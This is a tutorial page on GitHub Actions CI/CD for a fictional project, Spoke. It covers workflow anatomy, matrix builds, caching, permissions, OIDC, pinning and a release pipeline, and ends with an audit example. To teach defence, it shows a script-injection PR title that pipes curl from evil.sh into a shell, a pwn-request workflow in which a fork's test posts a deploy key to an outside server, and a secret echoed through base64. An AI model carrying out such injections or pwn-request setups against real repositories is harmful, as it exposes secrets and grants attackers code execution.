

## Hook

Think of a bike factory. Parts arrive at the gate, and a guard checks every delivery. Machines work side by side, and the slow ones get their own lines. Finished bikes leave in sealed boxes, each with a serial number. Nobody builds a bike in their garage and wheels it onto the truck.

Spoke's pipeline is not that factory yet. Last night a stranger's pull request ran with Spoke's secrets in reach. Every push waits 25 minutes, so people merge without waiting. And releases are built by hand on Kakashi's laptop. This ticket turns GitHub Actions into the factory: a guard at the gate, parallel lines, and sealed, numbered releases.

## Concept

### From a robot tester to a delivery line

In [Continuous integration basics](/t/module-07-tooling/topic-04-ci-basics) you met the robot that builds and tests every push. You read a workflow file, saw an action pinned and a matrix, and learned to keep `main` green. In [Shipping to production](/t/module-07-tooling/topic-07-shipping-to-production) you learned "build once, deploy many".

This ticket goes deeper, in four directions:

| Direction | The question | Cards ahead |
|---|---|---|
| **Shape** | Which jobs run, in what order, how many? | triggers, `needs`, matrix |
| **Speed** | Why does CI take 25 minutes? | caching, artifacts, concurrency, timeouts |
| **Safety** | Who can run code with our secrets? | forks, permissions, secrets, OIDC, pinning |
| **Delivery** | How does a tag become a running release? | reusable workflows, the release pipeline, required checks |

```callout jargon
**CI/CD** means continuous integration plus continuous delivery (or deployment): every change is built, tested and made ready to ship, by machines, the same way every time.
```

### Workflow anatomy

A workflow is a YAML file in `.github/workflows/`. Here is every part you will meet, in one small file:

```yaml
name: CI                              # shown in the Actions tab
on:                                   # the triggers: which events start this workflow
  pull_request:
  push:
    branches: [main]
env:                                  # environment variables for every job
  MAVEN_OPTS: -Xmx1g
jobs:
  build:                              # the job's id
    runs-on: ubuntu-latest            # the runner: a fresh virtual machine
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@v5     # uses: run a published action
      - uses: actions/setup-java@v5
        with:                         # with: the action's inputs
          distribution: temurin
          java-version: '21'
      - name: Build and test
        run: ./mvnw -B verify         # run: a shell command on the runner
        env:                          # variables for this step only
          SPRING_PROFILES_ACTIVE: test
```

- **`uses`** runs someone's packaged code: an action. **`run`** runs your own shell commands. A step has one or the other.
- **`with`** passes inputs to an action. **`env`** sets environment variables, at workflow, job or step level. The closest level wins.
- Each **job** gets its own fresh runner. Steps inside a job share that machine and its disk. Jobs do not share anything unless you pass it on.

```callout jargon
A **runner** is the machine that runs one job. **GitHub-hosted** runners are new virtual machines that GitHub throws away after the job. **Self-hosted** runners are machines you run yourself.
```

### Syntax: expressions, if and outputs

Anything inside `${{ }}` is an **expression**. GitHub works it out before the step runs, and pastes the result in.

```yaml
      - run: echo "Building commit ${{ github.sha }} on ${{ github.ref_name }}"
      - if: github.ref == 'refs/heads/main'          # run this step only on main
        run: ./mvnw -B deploy
      - id: version
        run: echo "tag=$(cat VERSION)" >> "$GITHUB_OUTPUT"
      - run: echo "Version is ${{ steps.version.outputs.tag }}"
```

```callout jargon
A **context** is a bag of facts an expression can read. `github` holds the event, commit and branch. `secrets` holds secrets, `matrix` the current matrix values, `needs` other jobs' results, and `steps` earlier steps' outputs.
```

A step writes `name=value` lines to the file named by `$GITHUB_OUTPUT`. Later steps read them as `steps.<id>.outputs.<name>`. The `if:` key skips a step or a whole job when its condition is false.

### Triggers: what starts a workflow

The `on:` block lists events. These are the ones Spoke uses:

| Trigger | Starts when | Spoke uses it for |
|---|---|---|
| `push` (with `branches`, `tags`, `paths`) | commits or tags arrive | CI on `main`; releases on tags like `v2.6.0` |
| `pull_request` | a pull request opens or gets new commits | checks before merge |
| `workflow_dispatch` | someone presses **Run workflow** (or uses `gh workflow run`) | a manual redeploy, with typed inputs |
| `schedule` | a cron time, in UTC | the nightly dependency scan |
| `workflow_call` | another workflow calls this one | shared build steps, later in this page |
| `merge_group` | a pull request enters a merge queue | checks on the queued merge |

```yaml
on:
  push:
    tags: ['v*']                  # any tag starting with v
  schedule:
    - cron: '0 3 * * *'           # 03:00 UTC every day
  workflow_dispatch:
    inputs:
      environment:
        type: choice
        options: [staging, prod]
```

Three traps. A `schedule` runs on the default branch only, may start late when GitHub is busy, and fires at most every 5 minutes. In a public repository, scheduled workflows switch off after 60 days without activity. And `paths-ignore: ['docs/**']` skips docs-only pushes, which saves minutes, but read the required-checks card first.

### The YAML trap: on means true

GitHub reads `on:` as the text "on". Many other YAML readers do not. YAML 1.1, the older version of the format, says `on`, `off`, `yes` and `no` are booleans. SnakeYAML, the Java library, and PyYAML, the Python one, both follow YAML 1.1.

So your own tool that checks workflows can fail to find the triggers at all. Here is a real run with SnakeYAML 2.6:

```java
import java.util.Map;
import org.yaml.snakeyaml.LoaderOptions;
import org.yaml.snakeyaml.Yaml;
import org.yaml.snakeyaml.constructor.SafeConstructor;

public class Main {
    public static void main(String[] args) {
        String text = """
                name: CI
                on: [push, pull_request]
                jobs:
                  build:
                    runs-on: ubuntu-latest
                """;
        Map<?, ?> workflow = new Yaml(new SafeConstructor(new LoaderOptions())).load(text);
        System.out.println(workflow.keySet());
        System.out.println("get(\"on\")         = " + workflow.get("on"));
        System.out.println("get(Boolean.TRUE) = " + workflow.get(Boolean.TRUE));
    }
}
```

```text
[name, true, jobs]
get("on")         = null
get(Boolean.TRUE) = [push, pull_request]
```

The key is the boolean `true`, so `get("on")` finds nothing. Two fixes: look up `"on"`, then fall back to `Boolean.TRUE`; or write `"on":` in quotes in your files. Your practice code does the first, because it must read files other people wrote.

```callout jargon
`SafeConstructor` makes SnakeYAML build only plain maps, lists, text, numbers and booleans. Without it, a YAML file can ask for any Java class to be created, which is a security hole.
```

### Forks: pull_request and pull_request_target

Anyone can fork a public repository and open a pull request. Their code is a stranger's code. GitHub runs it with care:

| | `pull_request` | `pull_request_target` |
|---|---|---|
| Workflow file comes from | the pull request | the target repository's default branch |
| Code checked out by default | the pull request's code | the default branch's code |
| Secrets, for a fork's pull request | none | **all of them** |
| `GITHUB_TOKEN`, for a fork's pull request | read-only | can write, unless you limit it |

`pull_request_target` exists for jobs that never run the stranger's code, such as adding a label or a welcome comment. The danger starts when someone checks out the pull request's code inside it:

```yaml
on: pull_request_target
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # the stranger's code
      - run: ./mvnw -B verify                              # runs it, with our secrets in reach
```

The stranger's `pom.xml` or test can now read every secret and push with the token. Security researchers call this a **pwn request**.

```animate
title: A pwn request
kind: scene
nodes:
  - { id: fork, label: "Stranger's fork", emoji: "🍴", value: "evil test" }
  - { id: wf, label: "pull_request_target job", emoji: "⚙️", value: idle, col: 1 }
  - { id: vault, label: "Spoke's secrets", emoji: "🔐", value: "DEPLOY_KEY", col: 2 }
  - { id: out, label: "Stranger's server", emoji: "🛰️", value: empty, row: 1, col: 1 }
steps:
  - say: A stranger forks spoke-api and opens a pull request. Their test file quietly sends environment variables somewhere.
    focus: [fork]
  - say: The workflow uses pull_request_target, so it runs with Spoke's secrets and a token that can write.
    set: { wf: "has secrets" }
    focus: [wf, vault]
  - say: It checks out the pull request's head commit. Now the stranger's code is on a runner that holds the keys.
    send: { from: fork, to: wf, label: "checkout head.sha" }
  - say: ./mvnw verify runs their test. The test reads DEPLOY_KEY and posts it out.
    send: { from: wf, to: out, label: "DEPLOY_KEY" }
    set: { out: "has the key" }
  - say: The fix is plain pull_request for anything that runs their code. Then the job has no secrets to steal.
    set: { wf: "no secrets" }
```

```callout warning
A second trap: never paste text a stranger controls into `run:`. A pull request titled `x"; curl evil.sh | sh; "` turns `echo "${{ github.event.pull_request.title }}"` into a command. Pass such text through `env:` and use `"$TITLE"`. This is **script injection**.
```

### needs: jobs as a graph

Jobs run **at the same time** by default, each on its own runner. `needs:` makes a job wait for others to succeed:

```yaml
jobs:
  build:      { runs-on: ubuntu-latest, steps: [...] }
  unit-tests: { needs: build, runs-on: ubuntu-latest, steps: [...] }
  image:      { needs: build, runs-on: ubuntu-latest, steps: [...] }
  deploy:     { needs: [unit-tests, image], runs-on: ubuntu-latest, steps: [...] }
```

This is a graph: jobs are dots, and `needs` draws arrows. GitHub starts every job whose needs are done. So the jobs fall into **waves**: `build`; then `unit-tests` and `image` together; then `deploy`. The run takes as long as the slowest path through the graph, not the sum of all jobs.

```callout jargon
A **directed acyclic graph** (DAG) has one-way arrows and no loops. Ordering its dots so every arrow points forward is a **topological sort**. Kahn's algorithm does it in O(jobs + needs) time by counting each job's unfinished needs.
```

A job that `needs` a failed job is skipped. Add `if: always()` to run anyway, such as a job that posts the result to chat. A job reads another's outputs as `needs.build.outputs.image`. And a `needs` loop is an error: GitHub refuses to start the workflow.

### Matrix builds: how many jobs?

A `strategy.matrix` runs one copy of a job per **combination** of values:

```yaml
    strategy:
      fail-fast: false            # the default, true, cancels the others when one fails
      max-parallel: 4             # at most 4 at once
      matrix:
        os: [ubuntu-latest, windows-latest]
        java: [21, 25]
        exclude:
          - os: windows-latest
            java: 21
        include:
          - os: ubuntu-latest
            java: 17
```

Count it like this:

1. Multiply the list lengths: 2 × 2 = 4 combinations.
2. **`exclude`** removes every combination that matches all of an entry's keys: 4 − 1 = 3.
3. **`include`** runs after `exclude`. An entry that agrees with an existing combination on its matrix keys merges into it and adds nothing. An entry that agrees with none adds a new job. `java: 17` exists nowhere, so it adds one: 4 jobs.

```animate
title: Counting a matrix with an exclude
kind: code
code: |
  String[] os = {"ubuntu", "windows"};
  int[] java = {21, 25};
  int jobs = 0;
  for (String o : os) {
      for (int j : java) {
          if (o.equals("windows") && j == 21) continue;   // exclude
          jobs++;
          System.out.println(o + " / " + j);
      }
  }
  System.out.println(jobs + " jobs");
steps:
  - line: 1
    objects: { a1: { type: "String[]", fields: { "0": '"ubuntu"', "1": '"windows"' } } }
    vars: { os: "@a1" }
    say: The first matrix key, os, has two values.
  - line: 2
    objects: { a2: { type: "int[]", fields: { "0": 21, "1": 25 } } }
    vars: { java: "@a2" }
    say: The second key, java, has two values. Every combination is one job.
  - line: 3
    vars: { jobs: 0 }
    say: Start counting at zero.
  - line: 5
    vars: { o: '"ubuntu"', j: 21 }
    say: First combination, ubuntu with 21. The exclude does not match it.
  - line: 8
    vars: { jobs: 1 }
    out: ubuntu / 21
    say: It becomes job 1.
  - line: 8
    vars: { j: 25, jobs: 2 }
    out: ubuntu / 25
    say: ubuntu with 25 becomes job 2.
  - line: 6
    vars: { o: '"windows"', j: 21 }
    say: windows with 21 matches the exclude entry exactly, so continue skips it.
  - line: 8
    vars: { j: 25, jobs: 3 }
    out: windows / 25
    say: windows with 25 does not match all of the exclude's keys, so it stays.
  - line: 11
    out: 3 jobs
    say: 2 × 2 − 1 = 3 jobs. An include for java 17 would add a fourth.
```

A matrix makes at most 256 jobs in one run. Each job shows with its values, like `build (ubuntu-latest, 21)`. Watch the cost: 3 operating systems × 4 Java versions × 2 databases is 24 runners on every push.

### Caching: stop downloading the internet

A fresh runner has an empty `~/.m2/repository`. Without a cache, every run downloads Spring and every other library again: often minutes of a 25-minute build.

The easy way is one line in `setup-java`:

```yaml
      - uses: actions/setup-java@v5
        with:
          distribution: temurin
          java-version: '21'
          cache: maven             # caches ~/.m2/repository, keyed on a hash of every pom.xml
```

For anything else, `actions/cache` takes a **path** to save and a **key** to save it under:

```yaml
      - uses: actions/cache@v4
        with:
          path: ~/.m2/repository
          key: maven-${{ runner.os }}-${{ hashFiles('**/pom.xml') }}
          restore-keys: |
            maven-${{ runner.os }}-
```

- `hashFiles('**/pom.xml')` changes whenever a `pom.xml` changes, so a new dependency means a new key.
- No exact match? `restore-keys` restores the newest cache that starts with that prefix. Maven then downloads only what is missing.
- A saved cache **never changes**. On an exact hit, nothing is saved at the end. That is why a fixed key like `key: maven` is a bug: it is saved once and never refreshed.

A repository gets 10 GB of cache by default. Caches unused for 7 days are deleted. A run can restore caches made on its own branch or the default branch, so a fork cannot poison `main`'s cache. A cache is only a speed-up: the build must still work, just slower, without it.

### Artifacts: passing files between jobs

Jobs run on different machines. The jar built in `build` does not exist in `image`. An **artifact** carries it across:

```yaml
  build:
    steps:
      - run: ./mvnw -B package
      - uses: actions/upload-artifact@v4
        with:
          name: spoke-api-jar
          path: target/spoke-api.jar
          retention-days: 7
  image:
    needs: build
    steps:
      - uses: actions/download-artifact@v4
        with:
          name: spoke-api-jar
```

| | Cache | Artifact |
|---|---|---|
| Purpose | speed: reuse downloads across runs | results: hand files to later jobs, or to people |
| If missing | the build is slower, still correct | the next job fails |
| Kept | until unused for 7 days | 90 days by default, or `retention-days` |
| Example | `~/.m2/repository` | `spoke-api.jar`, test reports |

### Concurrency: cancel the stale run

You push to your pull request, spot a typo, and push again a minute later. Without help, both runs go on for 25 minutes. The first one tests code nobody will merge.

```yaml
concurrency:
  group: ci-${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true
```

A **concurrency group** is a name. At most one run per group is running and one is waiting. With `cancel-in-progress: true`, a new run cancels the running one. Each pull request has its own `github.ref`, so runs only cancel their own older runs.

Deploys need the opposite. Cancelling a deploy halfway can leave half the servers on the new version. For deploys, use a group like `deploy-prod` with `cancel-in-progress: false`: runs queue, and each finishes. A newer waiting run still replaces an older waiting one, which is fine, since the newest commit wins.

### timeout-minutes: a ceiling on every job

A job with no `timeout-minutes` may run for 360 minutes, six hours, before GitHub stops it. One integration test stuck on a network call then burns six runner-hours. It also blocks the concurrency group, so nothing else deploys.

```yaml
  integration-tests:
    runs-on: ubuntu-latest
    timeout-minutes: 20        # normally takes 8; stop at 20
```

Set each job's timeout to about twice its normal time. A step can have its own `timeout-minutes` too.

### Making a 25-minute pipeline fast

Measure first: the Actions tab shows each job's and each step's time. Then use the tools from the last few cards, cheapest first:

| Change | Why it helps |
|---|---|
| Cache Maven's downloads | stops re-downloading every library on every run |
| Split one long job into parallel jobs | lint, unit tests and integration tests run side by side |
| Shard slow tests with a matrix | `shard: [1, 2, 3, 4]`, each runner runs a quarter of the tests |
| Cancel stale runs | runners work on the newest commit only |
| Skip work that cannot matter | `paths-ignore` for docs-only pushes |
| Fail fast | compile and lint first, so a typo fails in one minute, not twenty |

The goal is feedback in under about 10 minutes. Past that, people stop waiting and merge on hope. That is how Spoke got here.

### permissions: a least-privilege GITHUB_TOKEN

GitHub makes a fresh `GITHUB_TOKEN` for every job. It acts on this repository only, and stops working when the job ends. What it may do is set by `permissions:`:

```yaml
permissions:                   # top level: the default for every job
  contents: read
jobs:
  release:
    permissions:               # this job only, replaces the top-level block
      contents: write          # create a GitHub release
      packages: write          # push to ghcr.io
      id-token: write          # ask for an OIDC token, two cards on
```

- Once you list any scope, every scope you did not list becomes `none`.
- `permissions: {}` means no access at all. `write-all` means every write scope: never use it.
- Without a `permissions:` key, the token gets the repository's default. Newer repositories default to read-only, but many older ones and organisations still default to read and write. Write it down, so the file says what the job can do.

```callout jargon
**Least privilege** means giving each job only the access its work needs. If the job is tricked, the damage stops there.
```

### Secrets and environments

Secrets live in the repository's or organisation's settings, never in files. A job reads them as `${{ secrets.NAME }}`. For values that are not secret, such as a region name, use **variables**: `${{ vars.NAME }}`.

An **environment** adds rules around a set of secrets. Spoke has `staging` and `prod`:

```yaml
  deploy-prod:
    environment: prod          # this job deploys to prod
    runs-on: ubuntu-latest
```

The `prod` environment's settings can hold:

- **Required reviewers**: the job pauses until one of the named people or teams presses Approve. You can stop people approving their own runs.
- **A wait timer**: wait, say, 10 minutes after staging before prod may start.
- **Deployment branches and tags**: only `main` or `v*` tags may deploy here.
- **Environment secrets**, such as the prod database password. A job gets them only after every rule above has passed.

So a workflow on a random branch cannot even read the prod secrets. Remember from module 7: never print a secret, and pass it through `env:` rather than pasting `${{ secrets.X }}` into a script.

### OIDC: cloud access without stored keys

The old way to deploy to a cloud was a long-lived access key, saved as a secret. It never expires on its own, and anyone who leaks it can use it from anywhere.

**OIDC** replaces it with a short-lived pass. The job asks GitHub for a signed token that says exactly who it is. The cloud checks the signature and the claims, then hands back credentials that last about an hour:

```yaml
    permissions:
      id-token: write          # may ask GitHub for an OIDC token
      contents: read
    steps:
      - uses: aws-actions/configure-aws-credentials@<full commit SHA>   # v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/spoke-deploy-prod
          aws-region: eu-west-1
```

The token's **subject** claim reads like `repo:spoke/spoke-api:environment:prod`. The cloud's trust rule says: "only that subject may use the role `spoke-deploy-prod`". A fork, another repository or another environment gets a different subject and is refused.

```callout jargon
**OIDC** (OpenID Connect) is a standard way for one system to prove identity to another with a signed, short-lived token. A **claim** is one fact inside the token, such as the repository or the environment.
```

Nothing long-lived is stored, so there is nothing to leak, and nothing to rotate. AWS, Google Cloud and Azure all support it.

### Pin actions to a full commit SHA

Module 7 told the story of `tj-actions/changed-files`: in March 2025 its tags were moved to code that dumped secrets into logs. A tag is a sticky note an owner can move. A full commit SHA names one exact snapshot of code, forever.

```yaml
      - uses: tj-actions/changed-files@v46                                        # a movable tag
      - uses: tj-actions/changed-files@<full 40-character commit SHA>   # v46.0.1, fixed
```

- A **short** SHA such as `@3f9c2a1` is not enough. It is only a prefix, and someone can make another commit that starts with the same seven characters. Always use all 40.
- Keep the version in a comment. Dependabot updates both the SHA and the comment.
- Spoke's rule: every action from outside GitHub's own `actions/` and `github/` owners must be pinned. Stricter teams pin those too, and an organisation's Actions policy can require full-SHA pins for every action.
- A pin freezes the action's own file, but an action can still download things when it runs. Read what you add.
- The same idea pins container images by digest: `eclipse-temurin@sha256:...` instead of a tag.

### Reusable workflows and composite actions

Spoke has six services, each with the same 40-line build. Copying it six times means six places to fix. GitHub offers two ways to share:

**A reusable workflow** is a whole workflow that others call as a job:

```yaml
# spoke/ci-templates/.github/workflows/maven.yml
on:
  workflow_call:
    inputs:
      java-version: { type: string, default: '21' }
    secrets:
      SONAR_TOKEN: { required: false }
jobs:
  build:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@v5
      # ... setup-java, cache, ./mvnw -B verify
```

```yaml
# in spoke-api
jobs:
  build:
    uses: spoke/ci-templates/.github/workflows/maven.yml@<full commit SHA>
    with:
      java-version: '21'
    secrets: inherit
```

**A composite action** bundles a few steps, used as one step:

```yaml
# .github/actions/setup-spoke/action.yml
name: Set up Spoke build
runs:
  using: composite
  steps:
    - uses: actions/setup-java@v5
      with: { distribution: temurin, java-version: '21', cache: maven }
    - run: ./mvnw -B -q dependency:go-offline
      shell: bash               # composite run steps must name their shell
```

| | Reusable workflow | Composite action |
|---|---|---|
| Used as | a whole job (`jobs.x.uses`) | one step (`steps[].uses`) |
| Can hold | several jobs, runners, environments | steps only, inside the caller's job |
| Gets secrets | passed in, or `secrets: inherit` | only what the caller passes as inputs |

A calling job cannot have its own `steps` or `timeout-minutes`; the called workflow sets those. And the `@ref` in a job-level `uses:` is another action reference: pin it too.

### A release pipeline: from tag to production

Here is the pipeline that replaces Kakashi's laptop. A tag starts it, and each stage needs the one before:



```animate
title: Tag v2.6.0 goes to production
kind: scene
nodes:
  - { id: git, label: "Tag v2.6.0", emoji: "🏷️" }
  - { id: ci, label: "Build and test", emoji: "🤖", value: idle, col: 1 }
  - { id: reg, label: "ghcr.io", emoji: "📦", value: empty, col: 2 }
  - { id: stg, label: Staging, emoji: "🧪", value: "v2.5.3", row: 1, col: 1 }
  - { id: prod, label: Prod, emoji: "🚲", value: "v2.5.3", row: 1, col: 2 }
steps:
  - say: Tsunade pushes the tag v2.6.0. The release workflow starts on the commit it points to, 3f9c2b7a1d4e…
    send: { from: git, to: ci, label: "on: push tags" }
    set: { ci: building }
  - say: One job compiles and tests. If anything is red, the pipeline stops here.
    set: { ci: green }
  - say: The image is built once and pushed, tagged with the version and the first 12 characters of the commit. It never changes again.
    send: { from: ci, to: reg, label: "spoke-api:2.6.0-3f9c2b7a1d4e" }
    set: { reg: "2.6.0-3f9c2b7a1d4e" }
  - say: The staging job deploys that exact image and runs smoke tests.
    send: { from: reg, to: stg, label: deploy }
    set: { stg: "v2.6.0" }
  - say: The prod job waits. The prod environment needs a reviewer to press Approve.
    focus: [prod]
  - say: After approval, prod gets the same image staging tested, byte for byte.
    send: { from: reg, to: prod, label: deploy }
    set: { prod: "v2.6.0" }
```

The image is built **once**, and both environments get the same bytes. That is "build once, deploy many" from module 7, now done by a machine. The full file is in the worked example's second half.

### Branch protection and required checks

A green check is only advice until a rule needs it. On `main`, set a **ruleset** (or a classic branch protection rule):

- **Require status checks to pass**, and pick the job names, such as `build` and `unit-tests`. A matrix job shows each copy, like `build (ubuntu-latest, 21)`, so require the names exactly.
- **Require branches to be up to date**, so checks ran against the newest `main`.
- **Require a review**, and add a `CODEOWNERS` line so changes to `.github/workflows/` need the platform team's review.
- **Block force pushes**, and let nobody bypass the rules.

Two traps. A required check from a workflow skipped by `paths-ignore` never reports, so the pull request waits forever as "pending". A **merge queue** tests pull requests merged together before they land. If you use one, your workflow must also run `on: merge_group`, or the queue waits forever too.

### In an interview

**Recognise it.** "Design a CI/CD pipeline." "How do you ship safely to production?" "Our builds are slow." "How do you keep secrets safe in CI?" "What is a supply-chain attack?"

**The answer shape.** Trigger, then build and test once, then an immutable artifact named by version and commit, then staging, then a gate, then prod. Then name the safety rails: least-privilege tokens, OIDC instead of keys, environments with reviewers, pinned actions, required checks.

**Algorithm questions in disguise.** A job graph is a DAG. "Can every job run?" is cycle detection, as in the classic **course schedule** problem. "How many rounds does it take?" is the number of waves, as in **parallel courses**. Both use Kahn's topological sort, O(V + E). A matrix is a **Cartesian product**: multiply the list sizes.

**Classic follow-ups.** Cache or artifact? Why `pull_request_target` is dangerous. Why cancel stale CI runs but never a running deploy. What happens when a tag is moved.

## Worked example

Here is Spoke's old CI file. It has five of the problems from this page.

```yaml
name: CI
on:
  push:
  pull_request_target:
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - uses: actions/setup-java@v5
        with:
          distribution: temurin
          java-version: '21'
      - run: ./mvnw -B verify
      - run: echo "debug ${{ secrets.DEPLOY_KEY }}" | base64
  notify:
    needs: build
    runs-on: ubuntu-latest
    permissions: write-all
    steps:
      - uses: chat-tools/notify-action@v2
        with:
          webhook: ${{ secrets.CHAT_WEBHOOK }}
```

The audit you build in this ticket prints this for it (a real run of the reference solution):

```text
NO_PERMISSIONS at workflow: no top-level permissions: the GITHUB_TOKEN gets the repository default, which may allow writes
NO_TIMEOUT at jobs.build: no timeout-minutes: a stuck job runs for 6 hours (360 minutes) before GitHub stops it
PWN_REQUEST at jobs.build.steps[0]: pull_request_target runs with this repository's secrets and token, and this checks out the pull request's code: ${{ github.event.pull_request.head.sha }}
SECRET_ECHOED at jobs.build.steps[3]: this run script prints a secret; pass it in through env: and never print it
BROAD_PERMISSIONS at jobs.notify: permissions: write-all gives this job's GITHUB_TOKEN every write scope
NO_TIMEOUT at jobs.notify: no timeout-minutes: a stuck job runs for 6 hours (360 minutes) before GitHub stops it
UNPINNED_ACTION at jobs.notify.steps[0]: chat-tools/notify-action@v2 is not pinned to a full 40-character commit SHA, so its owner can move it to other code
```

Reading the findings top to bottom:

1. **PWN_REQUEST** is the fork attack from the ticket. CI runs a stranger's code, so it must use `pull_request`, which has no secrets.
2. **SECRET_ECHOED**: base64 hides the key from GitHub's masking, as module 7 warned. Delete the line.
3. **BROAD_PERMISSIONS** and **NO_PERMISSIONS**: set `contents: read` at the top. `notify` needs no token at all.
4. **UNPINNED_ACTION**: pin the chat action by SHA.
5. **NO_TIMEOUT**, twice: add ceilings.

Here is the fixed CI file, with caching and concurrency added for speed:

```yaml
name: CI
on:
  pull_request:
  push:
    branches: [main]
permissions:
  contents: read
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true
jobs:
  build:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@v5
      - uses: actions/setup-java@v5
        with:
          distribution: temurin
          java-version: '21'
          cache: maven
      - run: ./mvnw -B verify
  notify:
    needs: build
    if: always() && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    timeout-minutes: 5
    permissions: {}
    steps:
      - uses: chat-tools/notify-action@<full 40-character commit SHA>   # v2.3.1
        with:
          webhook: ${{ secrets.CHAT_WEBHOOK }}
```

And here is the release file, `.github/workflows/release.yml`:

```yaml
name: Release
on:
  push:
    tags: ['v*']
permissions:
  contents: read
jobs:
  build:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    permissions:
      contents: read
      packages: write                          # push to ghcr.io
    outputs:
      image: ${{ steps.push.outputs.image }}
    steps:
      - uses: actions/checkout@v5
      - uses: actions/setup-java@v5
        with: { distribution: temurin, java-version: '21', cache: maven }
      - run: ./mvnw -B verify
      - id: push
        env:
          TOKEN: ${{ secrets.GITHUB_TOKEN }}
        run: |
          # tag v2.6.0 on commit 3f9c2b7a1d4e... gives ghcr.io/spoke/spoke-api:2.6.0-3f9c2b7a1d4e
          IMAGE="ghcr.io/spoke/spoke-api:${GITHUB_REF_NAME#v}-${GITHUB_SHA::12}"
          docker build -t "$IMAGE" .
          echo "$TOKEN" | docker login ghcr.io -u "${{ github.actor }}" --password-stdin
          docker push "$IMAGE"
          echo "image=$IMAGE" >> "$GITHUB_OUTPUT"
  deploy-staging:
    needs: build
    environment: staging
    concurrency: { group: deploy-staging, cancel-in-progress: false }
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions: { contents: read, id-token: write }
    steps:
      - uses: actions/checkout@v5
      - run: ./scripts/deploy.sh staging "${{ needs.build.outputs.image }}"
      - run: ./scripts/smoke-test.sh https://staging.spoke.example
  deploy-prod:
    needs: [build, deploy-staging]
    environment: prod                          # pauses for a required reviewer
    concurrency: { group: deploy-prod, cancel-in-progress: false }
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions: { contents: read, id-token: write }
    steps:
      - uses: actions/checkout@v5
      - run: ./scripts/deploy.sh prod "${{ needs.build.outputs.image }}"
```

Things to notice:

- The registry token reaches `docker login` through `env:` and standard input, never pasted into the script.
- Each deploy job gets cloud access through OIDC (`id-token: write`), inside `deploy.sh`. No cloud key is stored anywhere.
- `deploy-prod` lists `build` in `needs` too, because a job can only read the outputs of jobs it needs directly.
- Both deploy jobs queue instead of cancelling, so a deploy is never cut off halfway.

## Try it

`needs:` turns jobs into waves. Run this planner for the release graph.

```java run
import java.util.ArrayList;
import java.util.LinkedHashMap;
import java.util.List;
import java.util.Map;

public class Main {
    public static void main(String[] args) {
        // Each job and the jobs it needs, in file order, like the needs: lines of a workflow.
        Map<String, List<String>> needs = new LinkedHashMap<>();
        needs.put("build", List.of());
        needs.put("unit-tests", List.of("build"));
        needs.put("image", List.of("build"));
        needs.put("scan", List.of("image"));
        needs.put("deploy-staging", List.of("unit-tests", "scan"));
        needs.put("deploy-prod", List.of("deploy-staging"));

        List<String> done = new ArrayList<>();
        int wave = 1;
        while (done.size() < needs.size()) {
            List<String> ready = new ArrayList<>();
            for (Map.Entry<String, List<String>> job : needs.entrySet()) {
                if (!done.contains(job.getKey()) && done.containsAll(job.getValue())) {
                    ready.add(job.getKey());
                }
            }
            if (ready.isEmpty()) {
                System.out.println("cycle: these jobs can never start");
                return;
            }
            System.out.println("wave " + wave++ + ": " + ready);
            done.addAll(ready);
        }
    }
}
```

1. Make `scan` need only `build`. How many waves now? Which run is shorter?
2. Make `build` need `deploy-prod`. What happens, and why must a real planner never loop forever?
3. This planner rescans every job for each wave: O(waves × (jobs + needs)). Kahn's algorithm, from the needs card, does it in O(jobs + needs). Where does the extra work come from?

## Recap

- A workflow is triggers (`on`), jobs on fresh runners, and steps that `uses` an action or `run` a command. Expressions in `${{ }}` read contexts. YAML 1.1 readers such as SnakeYAML turn an unquoted `on` into the boolean `true`.
- `needs` makes jobs a graph that runs in waves. A matrix makes one job per combination, minus `exclude`, plus each `include` that fits no combination.
- Speed comes from caching downloads, artifacts between jobs, parallel jobs, cancelling stale runs with `concurrency`, and `timeout-minutes` on every job.
- Safety: never run a fork's code in `pull_request_target`, and keep `permissions` least-privilege. Keep secrets in environments with reviewers, use OIDC instead of cloud keys, and pin outside actions to a full commit SHA.
- A release pipeline builds once from a tag and pushes an image tagged with the version and the commit, such as `2.6.0-3f9c2b7a1d4e`. It deploys to staging, waits for approval, then deploys the same image to prod. Required checks make CI a rule, not advice.

## Common mistakes

**1. Running a fork's code in pull_request_target.**

```yaml
on: pull_request_target
# ...
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - run: ./mvnw -B verify
```

Symptom: nothing looks wrong, and CI even goes green. But any stranger's pull request runs with every secret and a token that can write. Fix: use `pull_request` for anything that builds or tests their code. Keep `pull_request_target` for labels and comments that never check out the pull request.

**2. A cache key that never changes.**

```yaml
          key: maven
```

Symptom: the first run saves the cache, and every later run gets a hit, so nothing is ever saved again. After a dependency upgrade, every build downloads the new libraries again, and the cache never learns them. Fix: put a hash of what decides the content in the key, such as `hashFiles('**/pom.xml')`, with a `restore-keys` prefix as a fallback.

**3. Cancelling deploys in progress.**

```yaml
  deploy-prod:
    concurrency: { group: deploy-prod, cancel-in-progress: true }
```

Symptom: two merges land a minute apart. The second deploy cancels the first halfway, and for a while some servers run one version and some the other. Fix: `cancel-in-progress: false` for deploys. Cancel only CI runs on pull requests.

**4. Looking up on with get("on").**

```java nocompile
Map<?, ?> workflow = yaml.load(text);
Object triggers = workflow.get("on");   // the key is Boolean.TRUE
```

Symptom: `triggers` is `null` for every normal workflow, so a checker that looks for `pull_request_target` never finds it and passes dangerous files. Fix: look up `"on"` first, then `Boolean.TRUE`.

